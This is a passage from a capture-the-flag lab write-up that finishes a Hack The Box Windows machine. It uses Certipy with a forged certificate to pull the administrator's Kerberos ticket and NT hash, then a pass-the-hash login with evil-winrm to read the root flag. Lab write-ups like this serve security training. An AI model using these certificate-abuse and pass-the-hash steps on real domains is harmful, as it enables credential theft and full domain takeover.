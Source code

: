 Finally, we can use `certipy` one last time to request Kerberos credentials using our shiny new certificate! 

```bash
certipy-ad auth -pfx 'administrator_dc01.pfx'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Found multiple identifications in certificate
[*] Please select one:
    [0] UPN: 'administrator@sequel.htb'
    [1] DNS Host Name: 'dc01.sequel.htb'
> 0
[*] Using principal: administrator@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:7a8d4e04986afa8ed4060f75e5a0b3ff
```

Armed with the `administrator` hash, we can simply login using `evil-winrm` and get the root flag. 

```bash
evil-winrm -i 10.10.11.51 -u administrator -p aad3b435b51404eeaad3b435b51404ee:7a8d4e04986afa8ed4060f75e5a0b3ff
```

```powershell                                        
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
```

## Resources:

| Hyperlink                                                    | Info                |
| ------------------------------------------------------------ | ------------------- |
| https://github.com/ShawnDEvans/smbmap                        | SMBMap              |
| https://github.com/Pennyw0rth/NetExec                        | NetExec             |
| https://github.com/Hackplayers/evil-winrm                    | Evil-WinRM          |
| https://posts.specterops.io/certified-pre-owned-d95910965cd2 | Certified Pre-Owned |
| https://github.com/ly4k/Certipy?tab=readme-ov-file           | Certipy             |
| https://github.com/fortra/impacket                           | Impacket            |
